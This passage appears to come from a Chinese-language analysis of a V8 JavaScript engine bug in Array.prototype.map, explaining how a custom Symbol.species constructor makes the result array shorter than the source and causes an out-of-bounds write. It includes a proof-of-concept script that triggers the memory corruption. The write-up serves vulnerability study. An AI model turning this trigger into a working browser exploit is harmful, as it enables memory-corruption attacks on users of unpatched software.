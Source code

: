 ```c

  ...

  BIND(&has_length);
  len_ = merged_length.value();

  ...

  a_.Bind(generator(this));
  HandleFastElements(processor, action, &slow, direction);
  ...
```

array.prototype.map 所对应的js代码示意如下：

```javascript
Array.prototype.map = function (callback) {
	var Species = this.constructor[Symbol.species];
	var returnValue = new Species(this.length);
	this.forEach(function (item, index, array) {
		returnValue[index] = callback(item, index, array);
	});
	return returnValue;
}
```

v8创建对象a_ 是通过调用generator -> ArraySpeciesCreate ，此时由于用户可以自定义Symbol.species 属性，并通过该属性劫持a_ 的构造过程，修改a_ 的数组长度为1，小于原数组o_ 的长度，在后续调用MapProcessor->callbackfn 函数对o_ 每个元素进行处理并赋值给a_ 时，由于长度大于a_ ，最终导致越界写。并且callback 函数只会在有值的索引上被调用进行赋值，对于未初始化的索引（即hole）不做处理，可以利用这点，对特定的位置进行越界写。

PoC代码：

```javascript
var float_array;
function hex(i)
{
	return i.toString(16).padStart(16, "0");
}

class Array1 extends Array {
	constructor(len) {
	super(1);
	float_array = [1.1, 2.2];
	}
};
class MyArray extends Array {
	static get [Symbol.species]() {
		return Array1;
	}
}

o_ = new MyArray();// 这里和o_ 和 a_ 可以等效于v8源码中的o_ 和 a_, 命名成这样，方便理解

o_[2] = 3;
o_[8] = 9;

var a_ = o_.map(function(x) { return 0xddaa; });
%DebugPrint(o_);
%DebugPrint(a_);
console.log("a_ length is : 0x" + hex(a_.length));
console.log("float_array length is : 0x" + hex(float_array.length));
```
